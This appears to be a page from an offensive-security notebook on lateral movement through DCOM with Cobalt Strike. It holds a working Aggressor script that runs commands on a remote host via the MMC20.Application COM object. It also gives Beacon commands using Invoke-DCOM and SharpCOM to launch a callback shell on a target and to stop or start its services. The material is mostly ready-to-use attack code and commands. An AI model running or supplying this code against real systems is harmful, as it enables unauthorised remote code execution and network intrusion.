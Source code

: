 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - T1021-003
  - network-protocols
  - msrpc
  - cobalt-strike
  - windows
---
```

# Cobalt Strike

## Remote-Exec

Name this file as `dcom-remote-exec.cna`.

```perl
sub mmc20_exec_method {
   local('$script $command $args');

   # state what we're doing.
   btask($1, "Tasked Beacon to run $3 on $2 via DCOM", "T1175");

   # separate our command and arguments
   if ($3 ismatch '(.*?) (.*)') {
      ($command, $args) = matched();
   }
   else {
      $command = $3;
      $args    = "";
   }
    
   # build script that uses DCOM to invoke ExecuteShellCommand on MMC20.Application object
   $script  = '[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "';
   $script .= $2;
   $script .=  '")).Document.ActiveView.ExecuteShellCommand("';
   $script .= $command;
   $script .= '", $null, "';   
   $script .= $args;
   $script .= '", "7");';

   # run the script we built up
   bpowershell!($1, $script, "");
}

beacon_remote_exec_method_register("com-mmc20", "Execute command via MMC20.Application COM Object", &mmc20_exec_method);
```



## 01 - Spawn Callback Shell

### 1.1 - Invoke-DCOM

Spawn the callback shell.

```
beacon> powershell-import Invoke-DCOM.ps1

beacon> <powershell | powerpick> Invoke-DCOM -ComputerName <IP> -Method <MMC20.Application | ShellWindows | ShellBrowserWindow | ExcelDDE> -Command C:\path\to\remote\shell.exe

beacon> link <IP>
```

Modify the service.

```
beacon> <powershell | powerpick> Invoke-DCOM -ComputerName <IP> -Method <ServiceCheck | MinimizeAll | ServiceStop | ServiceStart> "<service_name>"
```

### 1.2 - SharpCOM

```
beacon> execute-assembly /path/to/local/SharpCOM.exe --Method <ShellWindows | MMC | ShellBrowserWindow | ExcelDDE> --ComputerName <target_IP> --Command "C:\path\to\remote\shell.exe"
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x06 - Lateral Movement/Windows/02 - RPC/04 - DCOM/Offensive Tools/Scripts]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x06 - Lateral Movement/Windows/02 - RPC/04 - DCOM/Offensive Tools/Binaries]]

### Cobalt Strike

- [Aggressor Script: Beacon](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as_beacon.htm)